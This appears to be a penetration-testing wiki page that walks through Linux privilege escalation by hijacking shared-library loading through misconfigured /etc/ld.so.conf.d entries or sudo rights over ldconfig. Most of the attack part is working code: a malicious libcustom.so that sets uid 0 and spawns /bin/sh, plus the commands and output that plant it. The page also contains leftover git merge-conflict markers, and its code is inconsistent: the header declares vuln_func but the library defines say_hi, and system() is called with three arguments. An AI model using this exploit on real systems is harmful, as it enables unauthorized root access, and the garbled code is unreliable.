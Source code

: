 # ld.so exploit example

## Prepare the environment

In the following section you can find the code of the files we are going to use to prepare the environment

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
    printf("Welcome to my amazing application!\n");
    vuln_func();
    return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void say_hi()
{
    puts("Hi");
}
```
{% endtab %}
{% endtabs %}

<<<<<<< HEAD
1. **Create** those files in your machine in the same folder
2. **Compile** the **library**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Copy** _\*\*libcustom.so_ to _/usr/lib_: `sudo cp libcustom.so /usr/lib` \(root privs\)
4. **Compile** the **executable**: `gcc sharedvuln.c -o sharedvuln -lcustom`
=======
1. **Create **those files in your machine in the same folder
2. **Compile **the **library**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Copy**_** **libcustom.so _to_ /usr/lib_: `sudo cp libcustom.so /usr/lib` (root privs)
4. **Compile **the **executable**: `gcc sharedvuln.c -o sharedvuln -lcustom`
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

### Check the environment

Check that _libcustom.so_ is being **loaded **from _/usr/lib_ and that you can **execute **the binary.

```
$ ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
    libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln 
Welcome to my amazing application!
Hi
```

## Exploit

In this scenario we are going to suppose that **someone has created a vulnerable entry **inside a file in _/etc/ld.so.conf/_:

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

The vulnerable folder is _/home/ubuntu/lib_ (where we have writable access).\
**Downloadand compile **the following code inside that path:

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```

Now that we have **created the malicious libcustom library inside the misconfigured** path, we need to wait for a **reboot **or for the root user to execute **`ldconfig `**(_in case you can execute this binary as **sudo **or it has the **suid bit **you will be able to execute it yourself_).

Once this has happened **recheck **where is the `sharevuln` executable loading the `libcustom.so` library from:

```c
$ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007ffeee766000)
    libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```

As you can see it's **loading it from `/home/ubuntu/lib`** and if any user executes it, a shell will be executed:

```c
$ ./sharedvuln 
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```

{% hint style="info" %}
Note that in this example we haven't escalated privileges, but modifying the commands executed and **waiting for root or other privileged user to execute the vulnerable binary** we will be able to escalate privileges.
{% endhint %}

### Other misconfigurations - Same vuln

In the previous example we faked a misconfiguration where an administrator **set a non-privileged folder inside a configuration file inside `/etc/ld.so.conf.d/`**.\
But there are other misconfigurations that can cause the same vulnerability, if you have **write permissions **in some **config file **inside `/etc/ld.so.conf.d`s, in the folder `/etc/ld.so.conf.d` or in the file `/etc/ld.so.conf` you can configure the same vulnerability and exploit it.

## Exploit 2

**Suppose you have sudo privileges over `ldconfig`**.\
You can indicate `ldconfig` **where to load the conf files from**, so we can take advantage of it to make `ldconfig` load arbitrary folders.\
So, lets create the files and folders needed to load "/tmp":

```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```

Now, as indicated in the **previous exploit**,** create the malicious library inside **_**/tmp**_.\
And finally, lets load the path and check where is the binary loading the library from:

```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007fffa2dde000)
    libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```

**As you can see, having sudo privileges over `ldconfig` you can exploit the same vulnerability.**

{% hint style="info" %}
I **didn't find** a reliable way to exploit this vuln if `ldconfig` is configured with the **suid bit**. The following error appear: `/sbin/ldconfig.real: Can't create temporary cache file /etc/ld.so.cache~: Permission denied`
{% endhint %}

## References

* [https://www.boiteaklou.fr/Abusing-Shared-Libraries.html](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html)
* [https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
* Dab machine in HTB
